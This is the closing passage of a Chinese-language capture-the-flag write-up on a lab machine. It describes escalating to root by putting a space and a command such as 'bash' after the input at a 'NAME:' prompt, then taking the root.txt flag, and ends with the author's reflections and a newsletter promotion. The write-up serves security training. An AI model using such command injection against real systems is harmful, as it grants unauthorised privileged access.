

正如您在上面看到的，系统提示我们输入 NAME: filed，我们可以在这里输入任何内容，并在我们要运行的命令后面加上一个空格。在我们的例子中，我们运行了 **bash**

抓取 root.txt 标志。



## 结论

老实说，由于读取代码的要求和权限提升的奇怪方法，这台机器很有挑战性(根据 Tj null 的列表，它比 oscp 更难评级),但是我发现 priv esc 方法很有趣，因为我以前从未见过它。更多这样的文章，请在 Medium 上关注我。直到下一次…

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！